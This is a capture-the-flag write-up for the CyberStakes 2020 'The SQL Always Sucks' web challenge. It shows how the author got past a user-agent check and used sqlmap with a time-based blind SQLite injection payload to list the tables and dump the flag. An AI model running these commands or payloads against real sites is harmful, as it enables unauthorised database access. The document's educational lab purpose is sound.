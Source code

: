 # The SQL Always Sucks

* **Category:** Web Security
* **Points:** 150
* **Challenge:** We discovered an application in our environment that is apparently under development. Please identify the risk it poses.

<br /> 

### **DISCLAIMER:** The challenge has been taken down from the CyberStakes website, so I was unable to redo the challenge and take complete notes.  Some of my command output will have a *...snip...* because I didn't record the full output.  

<br />

Navigating to the webserver in FireFox, http://challenge.acictf.com:28986/, we can see that there is a textbox to input our first name.  Looking at the source of the page, we find something interesting:
```
<!--Dev is only using Sqlite. Bobby Needs to fix this -->
<!--Form to retrieve last name from first name. In Dev.-->
```

<br />

So we know that the target is using an Sqlite database.  One of the hints states may curl and sqlmap will not work unless we use the proper user-agent string.  Lets test this out with curl:
```
curl http://challenge.acictf.com:28986/

User-Agent Alert! Help! I'm Being Hacked!!! /dead
```
<br /> 

Ok, lets open up burpsuite and use the proxy to intercept a GET request:

<br />

![burp](https://github.com/eesantiago/Writeups/blob/master/CyberStakes_2020/sql_always_sucks/burp.png)

<br /> 

Now using the user-agent that we intercepted, lets try curl again:
```
curl -A "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" http://challenge.acictf.com:28986/
```

<br /> 

This time we are successful.  Now let use sqlmap to test if the *firstname* parameter is vulnerable to SQL injection.  After increasing the level of tests and the risk of the tests, I was able to enumerate the tables in the database:
```
sqlmap --dbms=SQLite --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" -u http://challenge.acictf.com:28986/?firstname=Hacker --risk=3 --level=3 --tables


...snip...

Parameter: firstname (GET)
    Type: AND/OR time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: firstname=Hacker' OR 7813=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))-- eBHe
---
[15:02:17] [INFO] testing SQLite
[15:02:17] [INFO] confirming SQLite
[15:02:17] [INFO] actively fingerprinting SQLite
[15:02:17] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[15:02:17] [INFO] fetching tables for database: 'SQLite_masterdb'
[15:02:17] [INFO] fetching number of tables for database 'SQLite_masterdb'
[15:02:17] [INFO] resumed: 2
[15:02:17] [INFO] resumed: SuperSecretData
[15:02:17] [INFO] resumed: Users
Database: SQLite_masterdb
[2 tables]
+-----------------+
| SuperSecretData |
| Users           |
+-----------------+

...snip...
```

<br /> 

Now lets enumerate the columns in the *SuperSecretData* table:
```
sqlmap --dbms=SQLite --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" -u http://challenge.acictf.com:28986/?firstname=Hacker --risk=3 --level=3 -T SuperSecretData --columns


...snip...

Parameter: firstname (GET)
    Type: AND/OR time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: firstname=Hacker' OR 7813=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))-- eBHe
---
[08:40:45] [INFO] testing SQLite
[08:40:45] [INFO] confirming SQLite
[08:40:45] [INFO] actively fingerprinting SQLite
[08:40:45] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[08:40:45] [INFO] resumed: CREATE TABLE `SuperSecretData` (\n\t`ID`\tINTEGER,\n\t`flag`\tTEXT\n)
Database: SQLite_masterdb
Table: SuperSecretData
[2 columns]
+--------+---------+
| Column | Type    |
+--------+---------+
| flag   | TEXT    |
| ID     | INTEGER |
+--------+---------+

...snip...
```

<br />

Last we dump the contents of the *flag* column:
```
sqlmap --dbms=SQLite --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" -u http://challenge.acictf.com:28986/?firstname=Hacker --risk=3 --level=3 -T SuperSecretData -C flag --dump


...snip...

Database: SQLite_masterdb
Table: SuperSecretData
[1 entry]
+----+----------------------------------+
| ID | flag                             |
+----+----------------------------------+
| 1  | ACI{59df47a3243d2f239ea878a7266} |
+----+----------------------------------+

...snip...
```

<br />

## Flag: ACI{59df47a3243d2f239ea878a7266}
